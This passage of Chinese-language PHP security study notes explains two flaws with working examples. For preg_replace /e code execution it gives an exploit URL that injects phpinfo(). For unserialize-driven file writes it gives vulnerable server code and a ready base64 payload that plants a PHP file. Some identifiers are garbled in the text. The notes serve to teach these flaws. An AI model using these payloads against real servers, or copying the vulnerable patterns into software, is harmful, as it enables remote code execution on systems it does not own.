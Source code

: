 	5）preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1"',$data)
	demo：
			mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])
		/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)

		<?php
			$data = $_GET['data'];
			// echo $data;
			preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1"',$data);
			echo $ret;
		?>
	exp：
	http://www.jianshu.com/code_exection/1.php?data=<data>${phpinfo()}</data>

		
	}

	反序列化漏洞
	{
		定义：
		{
			序列化：使用函数serialize()可将实例序列化为字符串
			反序列化：使用函数unserialize()可将序列化的字符串还原
		}
		
		代码
		{
			服务器端：
				<?php class foo{ public $file = "test.txt"; public $data = "123456"; function __destruct(){ file_put_contents($this->file,$this->data); } } $d = $_REQUEST['str']; var_dump($d); echo "<br />"; $tc = unserialize(base64_decode($d)); var_dump($tc); ?>
			客户端：
				<?php class foo { public $?le = "test.txt"; public $data = "123456"; function __destruct() { ?le_put_contents($this->?le, $this->data); } } $f = new foo(); $f->?le = "xx.php"; $f->data = "<?php phpinfo(); ?>"; echo base64_encode(serialize($f)); ?>
				客户端可构造上文代码生成序列化后的字符串提交给服务端，服务端就会生成文件xx.php，内容为<b><?php phpinfo(); ?></b>：
			TzozOiJmb28iOjI6e3M6NDoiZmlsZSI7czo2OiJ4eC5waHAiO3M6NDoiZGF0YSI7czoxOToiPD9waHAgcGhwaW5mbygpOyA/PiI7fQ==
			O:3:"foo":2:{s:4:"file";s:6:"xx.php";s:4:"data";s:19:"<?php phpinfo(); ?>";}
		}
		
		序列化与反序列化
		{
			
			magic函数，magic函数命名是以符号__开头的
				__construct(), __destruct(), __call(), __callStatic(), __get(), __set(), __isset(), __unset(), __sleep(), __wakeup(), __toString(), __invoke(), __set_state(), __clone(), and __autoload()。
			这些函数在某些情况下会自动调用，比如__construct当一个对象创建时被调用，__destruct当一个对象销毁时被调用，__toString当一个对象被当作一个字符串使用
			
			
		}
		
		
	}
	
	参考文章
	{
		http://www.jianshu.com/p/3f0cf18adbe7
	}
	